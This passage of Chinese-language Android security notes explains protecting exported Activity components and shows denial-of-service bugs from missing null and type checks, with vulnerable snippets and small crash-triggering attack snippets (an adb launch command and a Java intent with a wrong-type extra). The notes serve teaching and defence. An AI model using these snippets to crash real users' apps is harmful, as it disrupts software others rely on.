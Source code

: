 #### 防护策略

- 私有Activity不应被其他应用启动，创建activity时，设置exported属性为false
- 公开暴露的Activity组件，可以被任意应用启动，需要谨慎处理接收的Intent，不应发送敏感信息，收到返回数据谨慎处理

### Activity拒绝服务攻击

[参考链接](https://segmentfault.com/a/1190000002590573)

#### NullPointerException

源于程序没有对getAction()等获取到的数据进行**空指针判断**，从而导致空指针异常而导致应用崩溃

漏洞应用代码片段：

```java
Intent i = new Intent();
if (i.getAction().equals("TestForNullPointerException")) {
    Log.d("TAG", "Test for Android Refuse Service Bug");
}
```

攻击应用代码片段：

不提供action，直接启动activity就可以导致崩溃

```stylus
adb shell am start -n com.alibaba.jaq.pocforrefuseservice/.MainActivity
```

#### ClassCastException示例

源于程序没有对 getSerializableExtra() 等获取到的数据进行**类型判断**而进行强制类型转换，从而导致类型转换异常而导致应用崩溃

漏洞应用代码片段：

```java
Intent i = getIntent();
String test = (String)i.getSerializableExtra("serializable_key");
```

攻击应用代码片段：

```java
Intent i = new Intent();
i.setClassName("com.example.unsafe", "com.example.unsafe.MainActivity");
i.putExtra("serializable_key", BigInteger.valueOf(1));
startActivity(i);
```

先启动漏洞app，再启动攻击app，漏洞app就会crash：
